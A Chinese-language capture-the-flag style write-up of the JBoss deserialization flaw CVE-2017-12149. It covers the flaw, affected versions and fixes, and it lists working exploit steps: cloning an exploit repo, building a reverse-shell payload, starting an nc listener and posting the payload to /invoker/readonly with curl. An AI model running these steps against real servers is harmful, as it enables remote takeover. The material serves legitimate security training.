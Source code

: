 # JBOSS 命令执行（CVE-2017-12149) by [xiajibaxie](https://github.com/xiajibaxie)

## 一，漏洞描述

JBOSS Application Server是一个基于J2EE的开放源代码的应用服务器。
2017年8月30日，厂商Redhat发布了一个JBOSSAS 5.x 的反序列化远程代码执行漏洞通告。该漏洞位于JBoss的HttpInvoker组件中的 ReadOnlyAccessFilter 过滤器中，其doFilter方法在没有进行任何安全检查和限制的情况下尝试将来自客户端的序列化数据流进行反序列化，导致攻击者可以通过精心设计的序列化数据来执行任意代码。但近期有安全研究者发现JBOSSAS 6.x也受该漏洞影响，攻击者利用该漏洞无需用户验证在系统上执行任意命令，获得服务器的控制权。


## 二，影响版本

```
5.x和6.x版本的JBOSSAS
```

## 三，利用流程

访问地址： `10.10.11.20:49069`

名称： CVE-2017-12149

下载exp

`git clone https://github.com/joaomatosf/JavaDeserH2HC`

![1](./1.jpg)

执行命令

```
设置反弹的ip和端口
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap ip:port
本地设置监听
nc -lvvp 1234
发送数据包
curl http://10.10.11.20:49069/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

![2](./2.jpg)

执行命令获得flag

![3](./3.jpg)

通关！

## 四，修复方案

1.升级到JBOSS AS7。

2.临时解决方案：

​   (1) 不需要 http-invoker.sar 组件的用户可直接删除此组件。

​   (2) 添加如下代码至 http-invoker.sar 下 web.xml 的 security-constraint 标签中：<url-pattern>/*</url-pattern>用于对 http invoker 组件进行访问控制。



